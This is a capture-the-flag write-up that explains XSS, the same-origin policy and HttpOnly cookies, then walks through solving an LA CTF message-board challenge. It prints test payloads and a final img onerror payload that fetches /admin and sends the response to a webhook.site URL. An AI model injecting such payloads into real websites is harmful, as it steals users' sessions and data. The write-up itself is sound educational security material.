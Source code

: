 Background Information: XSS

What is XSS?

    XSS is a vulnerability that allows attackers to compromise the interactions between users and a vulnerable application
This happens because an attacker will find a way around the same origin policy (SOP).

What is SOP?

    A site’s origin is a combination of its protocol (like http, https, etc.), hostname/domain (like google.com), and port of the URL accessing it. (src) If two websites have all of these same aspects, then they are said to have the same origin.
        
        Two websites can have the same origin even if they have different file paths:
            http://example.com/app1/index.html
            http://example.com/app2/index.html

Even if port numbers are not stated explicitly, using a protocol’s default port number can help identify if two websites have the same origin:
http://example.com:80
http://example.com
src
When browsing, the browser loads data from many different websites that are likely to all come from different origins. The same origin policy prevents one website from reading the resources of a website from a different origin.  (src)
A type of vulnerability that is related to this is clickjacking using iframes. This vulnerability will not be covered here. (src)
So, a website won’t read resources from a website with a different origin. However, when we inject our malicious XSS script, the script runs as the same origin as the website we are injecting it into. Therefore, the browser will execute this malicious script because it sees it as from the same origin as the website it’s being inserted into. (src)
What is the malicious thing we are injecting? And where are we injecting it?
The thing that will be injected is a piece of malicious JavaScript code. You can inject it wherever the website will take in input. (src)
Below there is an example of a simple way to detect if a XSS attack is possible.
What can our malicious script do?
Our malicious script can do many things, but most of the time it will be revealing sensitive information on the victim user’s browser. For example, XSS can access the following data:
Keystrokes 
Redirection to malicious websites
Cookie information 
Cookies can contain information that an attacker can use to impersonate a user after a browsing session
The particular information that is in cookies is not relevant to this CTF
For this CTF, we just need to know that we can get cookies information from XSS
Other web browser exploits
(src)
Side-note here: the script we are talking about can be very short. Most are only a couple of lines long. Various examples can be found here.
Types of XSS:
Stored/Persistent XSS
The malicious script will be saved in the website’s database.
Example: a website has a place where users can post messages. A user can input a malicious script in place of a message. This message will get saved in the site’s database. When others see this person’s message on the website, the script will be executed (src)
Reflected XSS
The malicious script will most likely be in a site’s URL. When others visit this website, the script will be executed.
Example: 
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
(src)
DOM-based XSS 
This will not be covered in this writeup.
For more information: here
How to see if a website is vulnerable to XSS
Try inserting basic JavaScript and seeing if you get a response.
The most popular is: 
<script>alert('testing for XSS…')</script>
This may not always work. Chrome recently updated so you cannot use alert(). (src)
How to prevent XSS
Filter input
Encode data when it’s being outputted
For HTTP responses, use the correct response headers
src
For cookies, use HttpOnly
Recall that cookies can be accessed by using JavaScript in an XSS attack. Most web browsers don’t need to access cookies via JavaScript.
Therefore, to protect cookies, you can use the HttpOnly flag to tell the browser to access the cookie through HTTP only. 
The HttpOnly flag is included in the HTTP response header:
 Set-Cookie: sessionid=QmFieWxvbiA1; HttpOnly
HttpOnly is not perfect, and you can get around it: for more information
Src

Context & Vulnerability
We are provided a website where users can write and post messages. We are also given an “Admin Bot” where we may input a URL to the post that we made, and the Admin Bot will visit the post. 

In the challenge description, we are told that “the admin cookie is HttpOnly”. 

Therefore, due to the setup where we can input a message and send a URL to the admin bot, plus the HttpOnly hint, this leads us to believe that our vulnerability will be cross-site scripting (XSS).

Exploitation
We navigate to the page where we can input a message.



First we will try the classic XSS input to see if we can get execution through this area:
	
	<script>alert('testing for XSS…')</script>

We do not get an alert pop-up. Before, trying other payloads, let’s see how the HTML of the site looks after inputting the script:



The script got embedded into a <div>, and therefore it won’t execute. We may search for another payload that won’t just get lost in the HTML. On this site, we find HTML-specific payloads which we can try. The first one:

<img/src=x a='' onerror=alert(1)>

Indeed, when entered and submitted we got an alert pop-up and image saved.




As a comparison, we may also see what the HTML looks like:



The HTML was actually embedded to execute the script. We also see Firefox’s addition of the “event”.
So now that we know we can achieve XSS, we need to see what we may enter to get our flag. Let’s see the file’s script app.js, which was given in the challenge’s zip file. We see the following lines that are of interest:



This script tells us that if we go to the /admin path, we may get the flag only if this special cookie is enabled. If we don’t have this secret cookie, or if the cookies is not named ADMIN_SECRET, then we are redirected to the standard front page of the site. If we do meet these cookie requirements, then we get the flag. Thus, our goal now is to somehow meet these cookie requirements.

Recall our hint: “the admin cookie is HttpOnly”. This means we may not use JavaScript to access our cookie. And since we are on client-side, we may not access the cookie. Thus, we need to get our cookie data server-side.

Here are steps our XSS payload may follow to get our cookie:
Do something to trigger an error
When that error is triggered, deal with it by trying to visit /admin
Capture the response from visiting /admin 
Because that response has valuable information that we can’t access (our admin cookies), send that data somewhere we could access it. One place we may send it is our own site. Webhooks may provide us with a website to do this with. Or, if running the site locally (localhost), then ngrok can work. 
Once we send the data to our Webhooks site, we should see the cookie data there, which will give us our flag.

In JavaScript, our payload will look something like this (this is the specific solution provided by LA CTF):

<img src="x" onerror="fetch('/admin').then(response => response.json()).then(data => {fetch('https://webhook.site/[custom_webhook_url]?data=' + encodeURIComponent(JSON.stringify(data)));});"/>

We may try to enter this into the message posting part of the website.



We have inserted our malicious script successfully.



Now we may play the victim in the XSS scenario and visit the URL that the post gave us by inserting it into the admin bot. Then on our server we will see the flag.


Remediation
One easy way to patch this kind of error is to sanitize input. You should make sure that whatever message is entered doesn’t include inputs like <>, for example.



